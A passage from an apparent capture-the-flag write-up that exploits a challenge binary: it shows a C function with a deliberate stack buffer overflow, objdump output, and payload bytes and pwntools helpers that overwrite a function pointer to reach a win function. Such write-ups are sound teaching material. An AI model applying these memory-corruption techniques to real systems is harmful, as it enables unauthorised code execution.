 
> The ``check()`` function checks if ``rating =< 1``
> 

The other functions should work too, but with this one we can do it in one iteration with the line `kebab_amigo.rating += (_rating*2);`

But what can we do with this? Well, we now have control over the pointer that the program is going to execute, we could do a lot of things, but with only 4 bytes to overwrite, the list of possible outcomes is smaller. Let's see ``banhos_turcos()``

```c
void banhos_turcos(){
    char respuesta[100];
    puts("Que haces aqui amigo? Esto es solo para empleados!!");
    read(0, respuesta, 0x100);
}
```

We have a huge buffer overflow in this function.

## Exploitation Stages

---

### Overwrite destroy function

First of all we have to know the address of our win function ``banhos_turcos()``. We can do this by debugging with GDB or by using objdump.

```bash
❯ objdump -d chall -M intel | grep banhos
0000000000400b37 <banhos_turcos>
```

The payload to send to ``baklava()`` has to be 4 bytes of padding (to fill ``saldo_caja``) and our 4 bytes of address to jump to.

```python
'\xaa\xaa\xaa\xaa' # To fill saldo_caja
'\x37\x0b\x40' # Overwrite 0x400b37 into (*destructor)
```

We will create this helper functions for our exploit

```python
def baklava(buf):
    io.sendlineafter(b'> ', b'5')
    io.sendlineafter(b':', buf)

def durum_doble(buf):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'>', buf)
```

Our first payload should be the bytes we saw before, but as a long, so `0x400b37aaaaaaaa` (18026732223900330 in decimal), let's send this to the program and debug with GDB to see what happens.

